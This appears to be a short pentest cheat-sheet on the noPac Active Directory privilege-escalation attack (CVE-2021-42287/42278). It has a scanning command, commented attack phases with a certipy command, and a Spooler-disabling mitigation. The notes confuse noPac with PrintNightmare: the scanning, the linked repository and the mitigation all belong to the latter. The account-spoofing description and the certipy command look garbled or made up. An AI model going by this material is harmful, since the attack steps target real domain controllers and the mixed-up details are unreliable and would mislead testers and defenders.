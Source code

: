 # noPac
- noPac (CVE-2021-42287, CVE-2021-42278)
- PTT, DCSYNC, Domain Admin
- https://github.com/cube0x0/CVE-2021-1675#scanning
## Scanning
- We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

```shell
python3 /usr/share/doc/python3-impacket/examples/rpcdump.py  

rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```
## Attack

```bash
# =========================================================
# PHASE 1: SPOOF THE COMPUTER ACCOUNT
# =========================================================

# 1. Change the sAMAccountName of a non-DC computer to end with '$' (spoofing)
# This step is often performed using the Certipy-for-NoPac tool or Impacket's rpcclient.
# The original computer account (non-DC) must be compromised or writeable.

# =========================================================
# PHASE 2: EXPLOIT (REQUEST TGT)
# =========================================================

# The NoPac attack is a two-step ticket request using the legitimate KDC service:
# 1. Request a TGS ticket for the spoofed computer account.
# 2. Request a new TGT using the ticket from step 1, which the KDC incorrectly signs 
#    with the Domain Controller's identity (granting full domain control).

# Tool execution (Example Certipy command):
certipy auth -u '<Target-Computer>$' -p '<Password>' -dc-ip <DC-IP> -no-pass -impersonate 'krbtgt' -kdc-ip <DC-IP>
```
### Mitigation
- Disable Spooler service
```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f
```
```bash




```
